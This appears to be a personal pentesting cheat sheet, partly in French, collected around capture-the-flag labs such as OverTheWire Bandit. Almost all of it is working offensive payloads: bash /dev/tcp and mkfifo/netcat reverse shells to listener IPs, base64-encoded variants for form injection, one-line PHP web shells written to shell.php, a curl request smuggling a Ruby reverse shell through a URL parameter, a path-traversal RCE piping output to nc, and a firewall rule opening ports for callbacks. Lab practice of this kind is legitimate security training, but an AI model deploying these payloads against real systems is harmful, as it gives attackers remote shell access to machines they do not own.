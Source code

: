 
## _SSH Command Execution_
```
ssh -p 2220 bandit18@bandit.labs.overthewire.org -t "cat /home/bandit18/readme"
```

# reverShells
## _listener on a local port_
```
rlwrap nc -lvnp 1234
```
## _reverse shell from the remote server_
```
bash -i >& /dev/tcp/@IP/1234 0>&1
``` 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.16.108 1234 >/tmp/f
```
### can encode payload in Base64 
	marche pour les formulaire
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash
```
## _Create end send a reverse shell php file to webvictim_
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.108 1234 >/tmp/f"); ?>' > shell.php
```
```
echo "<?php system("bash -c 'bash -i >& /dev/tcp/10.201.1.201/1234 0>&1'");?>" > shell.php
```
## _form post_
```
curl 'http://remote@ip' -X POST -d 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```
	| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
	| `curl -X POST http://remot@IP/.%0d./.%0d./.%0d./bin/sh -d 'id | nc L@IP port'` | RCE
## _to allow the call backs on port 80 and 443 to our machine_
```
ufw allow from adresseip proto tcp to any port 80,443
```
